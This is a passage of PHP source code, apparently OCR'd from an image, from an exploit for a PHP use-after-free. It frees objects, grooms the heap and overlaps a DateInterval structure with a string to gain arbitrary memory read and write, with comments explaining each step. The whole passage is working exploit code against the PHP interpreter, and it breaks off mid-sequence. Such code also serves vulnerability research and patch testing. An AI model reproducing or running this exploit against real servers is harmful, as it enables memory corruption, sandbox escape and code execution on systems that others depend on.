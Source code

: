             # We now have the following situation: $x is a DateInterval object whose
            # internal TRT structure has the same address as $abc's zend_string.
            $p = new DateInterval('PT1S');

            #
            # Trigger UAF
            #
            
            o('  Unsetting both variables and setting $protector');
            # UAF here, $this is usable despite being freed
            unset($y[0]);
            # Protect $this's freed blocks
            unset($p);

            # Protect $p's timelib_rel_time structure
            $protector = ".$_protector";
            # !!! This is only required for apache
            # Got no idea as to why there is an extra deallocation (?)
            if(version_compare(PHP_VERSION, '7.2') >= 0)
                        $room[] = "!$_protector";

            o('  Creating DateInterval object');
            # After this line:
            # &((php_interval_obj) x).timelib_rel_time == ((zval) abc).value.str
            # We can control the structure of $this->abc and therefore read/write
            # anything that comes after it in memory by changing its size and
            # making in-place edits using $this->abc[$position] = $char
            $x = new DateInterval('PT1S');
            # zend_string.refcount = 0
            # It will get incremented at some point, and if it is > 1,
            # zend_assign_to_string_offset() will try to duplicate it before making
            # the in-place replacement